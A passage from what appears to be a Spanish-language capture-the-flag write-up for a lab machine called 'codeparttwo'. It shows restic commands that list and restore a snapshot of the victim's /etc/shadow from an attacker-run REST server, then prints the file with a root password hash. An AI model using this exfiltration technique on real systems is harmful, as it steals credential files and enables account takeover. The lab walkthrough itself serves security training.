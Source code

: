 Ahora vamos a comprobar las `snapshots` a ver si nos llego bien, en la maquina atacante haremos lo siguiente:

```shell
/snap/bin/restic -r "rest:http://<IP>:6666/Pwn3d" snapshots
```

Metemos la contraseña establecida del repo....

Info:

```
repository adeef797 opened (repository version 2) successfully, password is correct
ID        Time                 Host         Tags        Paths
-------------------------------------------------------------------
8ba0bb36  2025-09-19 12:29:02  codeparttwo              /etc/shadow
-------------------------------------------------------------------
1 snapshots
```

Con esto vemos que ha funcionado, por lo que vamos a exportarlo para verlo en texto plano y ver que realmente es el archivo de la maquina victima.

```shell
/snap/bin/restic -r "rest:http://<IP>:6666/Pwn3d" restore 8ba0bb36 --include /etc/shadow --target /tmp
```

Info:

```
repository adeef797 opened (repository version 2) successfully, password is correct
restoring <Snapshot 8ba0bb36 of [/etc/shadow] at 2025-09-19 16:29:02.381437431 +0000 UTC by root@codeparttwo> to /tmp
```

Ahora vamos a leerlo de esta forma:

```shell
cat /tmp/etc/shadow
```

Info:

```
root:$6$UM1RuabUYlt5BQ5q$ZtzAfYOaCaFxA8MGbyH1hegFpzQmJrpIkx7vEIKvXoVl830AXAx1Hgh8r11GlpXgY25LK8wF76nvQYQ1wLSn71:20104:0:99999:7:::
daemon:*:19430:0:99999:7:::
bin:*:19430:0:99999:7:::
sys:*:19430:0:99999:7:::
sync:*:19430:0:99999:7:::
games:*:19430:0:99999:7:::
man:*:19430:0:99999:7:::
lp:*:19430:0:99999:7:::
mail:*:19430:0:99999:7:::
news:*:19430:0:99999:7:::
uucp:*:19430:0:99999:7:::
proxy:*:19430:0:99999:7:::
www-data:*:19430:0:99999:7:::
backup:*:19430:0:99999:7:::
list:*:19430:0:99999:7:::
irc:*:19430:0:99999:7:::
gnats:*:19430:0:99999:7:::
nobody:*:19430:0:99999:7:::
systemd-network:*:19430:0:99999:7:::
systemd-resolve:*:19430:0:99999:7:::
systemd-timesync:*:19430:0:99999:7:::
messagebus:*:19430:0:99999:7:::
syslog:*:19430:0:99999:7:::
_apt:*:19430:0:99999:7:::
tss:*:19430:0:99999:7:::
```
